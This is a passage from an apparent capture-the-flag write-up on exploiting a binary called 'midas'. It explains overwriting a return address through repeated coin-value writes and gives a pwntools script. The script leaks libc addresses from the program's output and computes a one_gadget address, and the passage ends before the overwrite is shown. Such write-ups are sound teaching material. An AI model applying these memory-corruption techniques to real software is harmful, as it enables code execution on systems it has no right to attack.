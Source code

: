 ![Error](/assets/images/CJFinal-3.png)

### Overwriting return address
This part was the hard part. Since I'm not that amazing at algorithms, I just did trial and error for a while until I found a good way to write values. After awhile I noticed that the memset doesn't reset the return address (duh), so instead of one big write I could slowly add values until I I'm satisfied. I have to use factors of 3006 and 3007, and adding more than one coin of it's factor helps to increase value's faster.

It was truly brute force heavy, I wish I could've studied algorithms a bit more :\(

Here's is my full exploit. Mind the while(True), I used that because I hoped the address between the one_gadget and the exec leak would be positive small (i.e. less than 300000000).

```python


from pwn import *



def init_coins(num, coins):
  p.sendlineafter("Choice:", '1')
  p.sendlineafter("coins:", str(num))
  for i in coins:
    p.sendlineafter(":", str(i))

def compute(num):
  p.sendlineafter("Choice:", '2')
  p.sendlineafter("value:", str(num))

def end():
  p.sendlineafter("Choice:", '3')


while(True):
  p = process('./midas')
  compute(3011)
  p.recvuntil("with ")
  l = struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')

  compute(3010)
  p.recvuntil("with ")
  l += struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')
  l = int(l, 16)
  print hex(l)

  libc_base = l - 0x2409b
  one_gadget = libc_base + 0x50186


  compute(3007)
  p.recvuntil("with ")
  l = struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')

  compute(3006)
  p.recvuntil("with ")
  l += struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')
  l = int(l, 16)
  print hex(l)

```